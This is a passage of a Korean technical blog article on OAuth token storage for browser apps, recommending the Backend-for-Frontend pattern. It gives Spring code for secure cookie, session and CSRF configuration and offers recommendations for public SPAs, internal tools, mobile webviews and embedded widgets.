수년간 SPA + 외부 OAuth는 **"브라우저가 직접 토큰을 받아 들고 호출한다"** 는 구조였다. PKCE가 client_secret 없이도 안전한 인증 코드 교환을 가능하게 했고, 모든 것이 브라우저 안에서 끝났다. 깔끔하다고 느꼈다.

그러나 위협 모델이 바뀌었다. 공급망 공격, hijack된 브라우저 확장, 점점 정교해지는 XSS 우회. **공개 클라이언트인 브라우저는 client_secret을 보관할 수 없다.** sender-constrained token(DPoP / mTLS)을 도입하려 해도, 브라우저는 X.509 인증서 관리가 사실상 불가능하고 DPoP 키 관리는 까다롭다. 결과적으로 IETF의 권고는 점점 한 방향으로 정렬됐다 -- **브라우저에 토큰을 보관하지 마라.**

이 권고를 구체적인 구조로 만든 것이 BFF(Backend for Frontend)다.



핵심 성질은 세 가지다.

- **브라우저는 OAuth 토큰 자체를 영영 보지 못한다.** 들고 있는 것은 BFF로 향하는 세션 쿠키 하나. 이 쿠키는 `HttpOnly + Secure + SameSite=Lax/Strict`.
- **BFF는 confidential client다.** client_secret을 보관할 수 있고, DPoP 같은 sender-constrained token도 서버측에서 다룰 수 있다. 가장 강력한 OAuth 보안 옵션이 모두 열린다.
- **악성 확장의 위협 표면이 더 좁아진다 — 그러나 0이 되지는 않는다.** BFF 패턴이 강하게 닫는 것은 **OAuth access/refresh token 본문의 유출**이다. 토큰 자체는 BFF의 서버 메모리/Redis에 있고 evil.com으로 옮겨지지 않으므로, 다른 디바이스에서 우리 IdP·다른 Resource Server를 직접 호출하는 시나리오는 봉쇄된다. 다만 권한 있는 확장이 `chrome.cookies` API로 BFF 세션 쿠키를 그대로 떠가는 길은 여전히 열려 있고, 이 세션 쿠키는 기본적으로 bearer 세션 식별자이므로 **공격자가 자기 디바이스에서 BFF 세션을 그대로 재사용**할 수 있다(세션 하이재킹). 이 잔여 위험은 IP/User-Agent 바인딩, 짧은 idle timeout, 민감 작업의 재인증, 세션 식별자의 sender-constrained 결합(예: BFF 측 DPoP) 같은 별도 층으로 좁혀야 한다.

물론 단점도 있다. 가장 분명한 비용은 **BFF 인프라 자체**다 -- 추가 서버, 세션 저장소(여러 인스턴스 간 세션 공유), 배포 단계의 복잡도. 또한 BFF가 발급하는 세션 쿠키도 cross-site CSRF 방어층(`SameSite=Lax/Strict` + CSRF 토큰)이 여전히 의무다. 그리고 4절에서 짚은 것처럼 BFF 역시 **same-origin XSS riding은 자동으로 닫지 못한다** — 그것은 XSS 자체를 줄이는 일(CSP, 민감 작업 재인증 등)과 별도로 다뤄야 한다. BFF가 강하게 닫는 것은 **토큰 본문의 외부 유출과 확장 API를 통한 직접 접근**이다.

Spring 진영에서 BFF를 구현하는 자연스러운 도구는 **Spring Cloud Gateway + Spring Security + Spring Session**이다. 인증 흐름은 Authorization Code + PKCE를 BFF가 수행하고, Resource Server로의 호출은 `TokenRelay` 필터가 BFF의 `OAuth2AuthorizedClient`에서 액세스 토큰을 꺼내 첨부한다. 이 세부 시퀀스는 **2-2편(브라우저는 어떻게 토큰을 받아오는가 — OAuth 2.1, PKCE, BFF)** 에서 본격적으로 다룬다.

## 8. Spring 비교 종합

지금까지 등장한 결정들이 Spring API에서 어떻게 표현되는지 한 화면에 모은다. 이 절은 백엔드 개발자가 다음 PR에 그대로 빌려 쓸 수 있도록 코드 위주로 짧게 간다.

### 8.1 ResponseCookie — 쿠키 5속성을 빌더로

```java
ResponseCookie refresh = ResponseCookie.from("REFRESH_TOKEN", token)
    .httpOnly(true)
    .secure(true)
    .sameSite("Strict")
    .domain(null)                       // host-only 유지
    .path("/api/auth/refresh")          // 노출 표면 축소
    .maxAge(Duration.ofDays(14))
    .build();

response.addHeader(HttpHeaders.SET_COOKIE, refresh.toString());
```

이 한 빌더가 위에서 본 다섯 속성을 모두 한 줄씩 표현한다. **`domain(null)` 또는 호출 생략으로 host-only가 기본**, **`sameSite("Strict")`는 Spring 5.1+ 기준 String API**다.

### 8.2 Spring Session — 세션 쿠키 정책 일괄

BFF처럼 세션 쿠키를 직접 발급하는 경우, 모든 세션 쿠키 속성을 한 곳에서 통제한다.

```java
@Bean
DefaultCookieSerializer sessionCookieSerializer() {
    DefaultCookieSerializer serializer = new DefaultCookieSerializer();
    serializer.setCookieName("BFF_SESSION");
    serializer.setUseHttpOnlyCookie(true);
    serializer.setUseSecureCookie(true);
    serializer.setSameSite("Strict");
    serializer.setCookiePath("/");
    return serializer;
}
```

`Spring Session`은 이 직렬화기를 통해 세션 ID 쿠키를 일관된 정책으로 발급한다. 1편의 `Vary: Origin`/CORS 정책과 짝지어 운영하면 같은 회사의 여러 SPA가 BFF 한 대를 공유하는 흔한 토폴로지에 어울린다.

### 8.3 Bearer 헤더 추출 — Resource Server 측

브라우저가 아닌 BFF→API 구간이라면, Resource Server는 헤더 토큰을 받는다.

```java
@Bean
SecurityFilterChain api(HttpSecurity http) throws Exception {
    return http
        .authorizeHttpRequests(a -> a.anyRequest().authenticated())
        .oauth2ResourceServer(o -> o.jwt(Customizer.withDefaults()))
        .build();
}
```

기본 `DefaultBearerTokenResolver`는 `Authorization` 헤더에서 `Bearer ...`를 추출한다. 헤더명을 바꾸거나 form 파라미터에서도 받게 하려면 위 5절의 빈을 등록한다.

### 8.4 CSRF — Cookie 기반일 때만 필요

쿠키 자동 첨부를 사용하는 흐름에서는 CSRF 토큰 한 층이 더 필요하다. Spring Security 6의 핵심 결정점은 **`XorCsrfTokenRequestAttributeHandler`(BREACH 보호 디폴트) vs `CsrfTokenRequestAttributeHandler`(raw token, SPA 호환)** 의 선택이다.

```java
@Bean
SecurityFilterChain bff(HttpSecurity http) throws Exception {
    CsrfTokenRequestAttributeHandler csrfHandler = new CsrfTokenRequestAttributeHandler();
    csrfHandler.setCsrfRequestAttributeName("_csrf");

    return http
        .csrf(csrf -> csrf
            .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            .csrfTokenRequestHandler(csrfHandler)   // raw token (Angular/SPA 호환)
        )
        .build();
}
```

BREACH 보호는 응답 본문에 CSRF 토큰이 렌더링되는 전통적 MVC 시나리오에서 의미가 크다. SPA의 경우 CSRF 토큰은 보통 별도의 `XSRF-TOKEN` 쿠키와 `X-XSRF-TOKEN` 헤더로 흘리고, JS가 그 값을 읽어 헤더로 다시 첨부한다(Angular의 `HttpClient`가 자동으로 한다). 이 시나리오에서는 raw token이 호환성 측면에서 자연스럽다. **선택의 기준은 "CSRF 토큰이 HTML 응답 본문에 렌더링되는가"** 이다.

다만 이 한 빈만 등록하고 끝나면 함정에 걸리기 쉽다. Spring Security 6은 deferred CSRF token을 쓰기 때문에 첫 요청에서 토큰이 즉시 발급되지 않고, 인증/로그아웃 직후에는 새 토큰 쿠키 재발급이 필요하다. 그래서 **공식 [SPA CSRF 예제](https://docs.spring.io/spring-security/reference/servlet/exploits/csrf.html)는 raw 헤더 처리와 XOR 응답 렌더링 처리를 나눈 커스텀 `CsrfTokenRequestHandler`** 와 토큰 로딩/재발급 필터를 함께 등록한다. 운영 코드라면 그 구성을 그대로 따라가는 것이 안전하다.

### 8.5 한 화면 요약

| 결정 | Spring 표현 |
|------|-------------|
| 쿠키 속성을 한 줄로 빌드 | `ResponseCookie.from(name, value).httpOnly().secure().sameSite("Strict")...` |
| 모든 세션 쿠키 정책 일괄 | `DefaultCookieSerializer` (Spring Session) |
| Bearer 헤더 추출 (Resource Server) | `DefaultBearerTokenResolver` |
| CSRF 토큰 핸들러 — BREACH 보호 | `XorCsrfTokenRequestAttributeHandler` (디폴트) |
| CSRF 토큰 핸들러 — SPA 호환 (raw) | `CsrfTokenRequestAttributeHandler` |
| Cookie 기반 CSRF 저장소 (SPA용) | `CookieCsrfTokenRepository.withHttpOnlyFalse()` |

## 9. 당신의 상황별 추천

저장 결정은 결국 **위협 모델 × 인프라 비용**의 함수다. 흔한 네 가지 상황에 따른 권고를 한 번 닫고 가자.

### 9.1 공개 SPA — 외부 사용자, OAuth IdP 사용

**추천: BFF + HttpOnly Session Cookie (`SameSite=Lax/Strict; Secure; HttpOnly`) + CSRF 토큰**

근거가 분명하다. IETF `draft-ietf-oauth-browser-based-apps`가 권장하는 옵션이고, 공급망/확장 위협까지 가장 잘 닫는다. BFF 인프라 비용은 보안 측면의 이득에 비추어 합당하다. SPA 코드는 토큰을 의식하지 않고 `fetch('/bff/api/*', { credentials: 'include' })`만 쓴다.

### 9.2 사내 도구 — IdP 통합, 같은 도메인 안

**추천: HttpOnly Session Cookie + `SameSite=Strict` + Refresh Rotation**

내부망/사내망에서는 위협 모델이 다르다. 외부 광고 SDK·서드파티 위젯이 거의 없으므로 XSS 위험이 낮고, 같은 회사가 다른 origin을 통제하므로 cross-site 위협도 작다. 이때 BFF까지 가는 비용은 종종 과하다. 다만 **rotation은 그대로 둔다** -- 내부망이라 해도 노트북 분실, 악성 확장은 변함없는 위협이다.

### 9.3 모바일 웹뷰 — Capacitor / React Native WebView

**추천: 메모리(액세스) + Native Secure Storage(리프레시)**

웹뷰는 "브라우저"이긴 하지만 SameSite·CHIPS 모델이 호스트 OS와 결합되며, LocalStorage는 앱 재설치/캐시 정리 시 변동이 크다. 액세스 토큰은 JS 메모리에, 리프레시 토큰은 **iOS Keychain / Android Keystore에 저장하는 진짜 보안 저장소** — 예컨대 Capacitor의 `@capacitor-community/secure-storage` 또는 Ionic Identity Vault, RN의 `react-native-keychain` — 에 둔다. 주의할 점: Capacitor의 기본 `@capacitor/preferences`는 `UserDefaults`/`SharedPreferences` 위의 경량 key/value 저장소이지 Keychain/Keystore 기반이 아니므로 토큰 저장소로 적합하지 않다. 이 시나리오는 본질적으로 "네이티브 앱"의 모범과 가깝다.

### 9.4 임베디드 위젯 — third-party iframe

**추천: 위젯 자체에 토큰을 두지 말고, 호스트 origin의 BFF 호출**

위젯이 third-party iframe에서 동작한다는 것은 **partitioned context**라는 뜻이고, 1편 4.5에서 본 대로 `Partitioned`(CHIPS) 쿠키가 별도 jar에 격리된다. 위젯 단독으로 토큰을 들고 있으면 partition별로 자격증명이 갈라지고, 운영 복잡도가 폭발한다. 표준 패턴은 **위젯 → postMessage → 부모 origin → 부모의 BFF**다. 위젯은 자기 origin에 토큰을 두지 않는다.

| 상황 | 액세스 토큰 | 리프레시 토큰 | 저장소 결정 키워드 |
|------|------------|--------------|--------------------|
| 공개 SPA | BFF 서버 메모리 | BFF 서버 세션 | **BFF + Session Cookie** |
| 사내 도구 | 메모리 또는 HttpOnly Cookie | HttpOnly Cookie (`Path=/api/auth/refresh`) | **HttpOnly + Strict + Rotation** |
| 모바일 웹뷰 | JS 메모리 | Native Keychain/Keystore | **Memory + Native Secure** |
| 임베디드 위젯 | 위젯에 두지 않음 | 위젯에 두지 않음 | **postMessage to Parent BFF** |

## 10. 정리

### 핵심 포인트

1. **저장 결정의 두 축은 "JS 접근"과 "자동 첨부"다**
   - JS 접근 가능 = XSS 노출, 자동 첨부 = CSRF 노출.
   - 단일 저장소가 두 위협을 모두 0으로 만들지 못한다 -- 조합과 트레이드오프가 본질이다.

2. **메모리 보관은 XSS에 안전하지 않다**
   - 같은 realm에서 실행되는 JS는 클로저든 모듈 스코프든 모두 도달 가능하다.
   - `fetch` monkey-patch 한 줄이면 메모리 토큰도 동일하게 노출된다.

3. **HttpOnly가 닫는 것은 exfiltration 한 가지뿐이다**
   - 토큰 본문이 evil.com으로 빠져나가는 것은 막는다.
   - session riding은 SameSite + CSRF 토큰이 함께 들어와야 닫힌다.

4. **Refresh Token Rotation은 OAuth 2.1의 사실상 디폴트다**
   - SPA의 refresh token은 rotation 또는 sender-constrained token을 적용하고, 최대 수명 또는 비활성 만료를 둬야 한다(IETF `draft-ietf-oauth-browser-based-apps` §6.3.2.3은 8시간을 예시로 든다).
   - 같은 토큰의 두 번째 사용은 가족 전체 무효화 트리거가 된다.

5. **공개 SPA는 BFF로 수렴하는 중이다**
   - IETF `draft-ietf-oauth-browser-based-apps`의 권장 옵션.
   - 브라우저는 토큰을 보지 않고, BFF는 confidential client로서 DPoP/mTLS 같은 강한 옵션도 활용한다.

가장 중요한 한 줄로 줄이면 이렇다 -- **"어디에 둘 것인가"라는 질문은 곧 "어떤 위협을 우선 닫을 것인가"라는 질문이며, 두 위협을 동시에 닫고자 한다면 토큰을 브라우저 밖으로 옮기는 것이 정답이다.**

다음 편(2-2)에서는 그 토큰을 처음부터 BFF가 어떻게 받아오는지를 시퀀스 다이어그램으로 풀어 본다 -- OAuth 2.1, PKCE, 그리고 Authorization Server와의 줄다리기.

## 출처

- [IETF — OAuth 2.0 for Browser-Based Apps (draft-ietf-oauth-browser-based-apps)](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps) - SPA 토큰 관리의 IETF 공식 권고
- [RFC 9700 — Best Current Practice for OAuth 2.0 Security](https://datatracker.ietf.org/doc/html/rfc9700)
- [RFC 9449 — OAuth 2.0 Demonstrating Proof of Possession (DPoP)](https://datatracker.ietf.org/doc/html/rfc9449)
- [RFC 6265bis — HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis)
- [OWASP — JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
- [OWASP — HttpOnly](https://owasp.org/www-community/HttpOnly)
- [Spring Framework — `ResponseCookie`](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/http/ResponseCookie.html)
- [Spring Security — OAuth 2.0 Bearer Tokens](https://docs.spring.io/spring-security/reference/servlet/oauth2/resource-server/bearer-tokens.html)
- [Spring Security — CSRF (`XorCsrfTokenRequestAttributeHandler` vs `CsrfTokenRequestAttributeHandler`)](https://docs.spring.io/spring-security/reference/servlet/exploits/csrf.html)
- [Spring Session — `DefaultCookieSerializer`](https://docs.spring.io/spring-session/reference/api.html)
- [Curity — SPA Best Practices](https://curity.io/resources/learn/spa-best-practices/)
- 1편 — [Fetch, AbortController, CORS — 백엔드 개발자가 브라우저 HTTP를 만날 때](./Fetch-AbortController-CORS-백엔드-개발자가-브라우저-HTTP를-만날-때.md)
